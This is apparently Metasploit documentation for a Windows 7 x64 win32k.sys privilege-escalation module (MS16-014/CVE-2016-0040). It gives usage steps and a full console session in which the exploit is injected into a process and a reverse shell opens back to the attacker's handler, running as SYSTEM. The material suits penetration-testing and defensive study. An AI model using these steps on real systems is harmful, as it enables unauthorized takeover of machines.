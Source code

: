 ## Intro

This module exploits a uninitialized stack variable vulnerability present in the `win32k.sys` kernel driver on Windows 7 x64.  The vulnerability is described by MS16-014 and CVE-2016-0040.  The module allows the user to elevate privileges (NT AUTHORITY\SYSTEM)

## Usage

You'll first need to obtain a session on the target system.  Next, once the module is loaded, one simply needs to set the `payload` and `session` options.  From here, running the module will result in the payload being executed with system level privileges.

An example session follows:


```
meterpreter > background
[*] Backgrounding session 0...
msf exploit(handler) > use exploits/windows/local/ms16_014_wmi_recv_notif
msf exploit(ms16_014_wmi_recv_notif) > set session 0
session => 0
msf exploit(ms16_014_wmi_recv_notif) > exploit

[*] Started reverse TCP handler on 172.16.38.170:4444 
[*] Launching notepad to host the exploit...
[+] Process 3948 launched.
[*] Reflectively injecting the exploit DLL into 3948...
[*] Injecting exploit into 3948...
[*] Exploit injected. Injecting payload into 3948...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Command shell session 2 opened (172.16.38.170:4444 -> 172.16.38.129:49695) at 2018-03-07 08:27:57 -0800

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\whoami
whoami
SYSTEM
```
